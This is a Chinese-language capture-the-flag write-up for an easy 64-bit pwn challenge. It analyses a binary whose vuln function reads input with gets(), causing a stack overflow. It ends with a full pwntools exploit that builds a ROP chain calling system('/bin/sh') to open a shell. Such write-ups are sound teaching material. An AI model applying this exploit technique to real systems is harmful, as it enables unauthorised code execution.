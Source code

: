 # ROP链

- 作者：pn1fg

- 参考：

- 难度：Easy

- 分类：Pwn

- 暴露端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)
- 考点：64位ROP链

由于出题目的时间跨度有点大，导致本题与上题`ret2text_64`题目重合，为表达歉意，我们就不更换题目了，这道题目赠送给各位同学们

这里和同学们简单分析一下

#### 查看文件信息

查看文件类型：

```shell
>>> file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9c5a0203058595c56d22e89b7c4b45869bb959de, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    ulong s;

    sym.imp.system("echo You know the size of the input data?");
    sym.imp.gets(&s);
    return;
}
```

`gets`函数可以读入无限制长度的字符（直到换行`\n`），导致超出`s`长度，覆盖`rbp`，造成栈溢出

构造利用都与上题一致

#### 编写利用程序：

exp 也可以和上题共用，这里就演示一个

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```

